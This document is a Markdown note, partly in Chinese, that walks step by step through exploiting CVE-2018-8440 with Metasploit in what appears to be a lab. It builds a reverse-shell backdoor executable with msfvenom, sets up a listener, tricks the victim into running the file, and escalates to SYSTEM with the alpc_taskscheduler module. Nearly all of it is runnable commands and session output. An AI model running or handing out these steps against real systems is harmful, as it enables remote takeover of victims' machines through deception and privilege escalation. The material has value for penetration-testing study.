 # Metasploit-Note

## CVE-2018-8440
----
```
Attacker IP : 192.168.1.1
Victim IP : 192.168.1.2
Victim OS : Windows 10x64
```

Step 1. 產生後門程式
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > backdoor.exe
```
Step 2. 監聽回傳設定
```
$ msfconsole
msf > use mulit/handler
msf exploit(mulit/handler) >  set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(mulit/handler) >  set LHOST 192.168.1.1
LHOST => 192.168.59.144
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444
```
Step 3. 誘使受害端點擊 backdoor.exe，並取得一般使用者權限
```
[*] Sending stage (206403 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.2:50228) at 2018-10-01 08:40:10 +0800
meterpreter > getuid
Server username: DESKTOP-E6KTUJB\User
meterpreter > background 
[*] Backgrounding session 1...
```
Step 4. 查看監聽對象資訊
```
msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                             Connection
  --  ----  ----                     -----------                             ----------
  1         meterpreter x64/windows  DESKTOP-E6KTUJB\User @ DESKTOP-E6KTUJB  192.168.1.1:4444 -> 192.168.1.2:50228 (192.168.59.146)
```
Step 5. 使用 CVE-2018-8440 漏洞腳本，並取得系統權限
```
msf exploit(multi/handler) > use exploit/windows/local/alpc_taskscheduler 
msf exploit(windows/local/alpc_taskscheduler) > show options 

Module options (exploit/windows/local/alpc_taskscheduler):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS                   no        Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64


msf exploit(windows/local/alpc_taskscheduler) > set session 1
session => 1
msf exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Checking target...
[*] Target Looks Good... trying to start notepad.exe
[*] Launching notepad.exe to host the exploit...
[+] Process 7976 launched.
[*] Writing payload dll into process 7976 memory
[*] Reflectively injecting the exploit DLL into 7976...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (192.168.1.1:4444 -> 192.168.1.2:50258) at 2018-10-01 09:16:31 +0800

C:\Windows\system32>whoami
whoami
nt authority\system
```
# Notes
* Metasploit 腳本更新
  Kali 中 .rb 的存放路徑為 /usr/share/metasploit-framework/modules/exploits 中

  將 .rb 放進去資料夾後，重新載入
  ```
  $ msfconsole
  msf > reload_all
  [*] Reloading modules from all module paths...
  ```
* 查詢可產生後門程式的類型
  ```
  $ msfvenom -l payloads
  ```
# Reference
[metasploit-framework](https://github.com/rapid7/metasploit-framework)
